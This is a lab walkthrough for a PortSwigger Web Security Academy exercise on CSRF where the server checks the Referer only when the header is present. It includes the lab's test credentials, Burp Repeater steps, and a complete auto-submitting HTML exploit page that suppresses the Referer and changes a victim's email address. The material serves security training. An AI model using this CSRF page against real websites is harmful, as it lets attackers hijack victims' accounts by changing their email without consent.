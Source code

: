 # CSRF where Referer validation depends on header being present

## This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.

## To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

## You can log in to your own account using the following credentials: `wiener:peter`

---

### step 1 login

and change email and send to repeater
Referer: https://0a43001e04d993ff82467bab00ad0052.web-security-academy.net/my-account
change .net to .com and send request
Referer: https://0a43001e04d993ff82467bab00ad0052.web-security-academy.com/my-account
"Invalid referer header"
Delete the Referer header entirely and observe that the request is now accepted.and send request it will 302 found

HTML to suppress the Referer header

### HINT:

```html
<meta name="referrer" content="never" />
```

```html
<html>
  <head>
    <meta name="referrer" content="never" />
  </head>
  <body>
    <form
      action="https://0aa900d10373edfe81cd75dd008f004f.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

delivered to victim
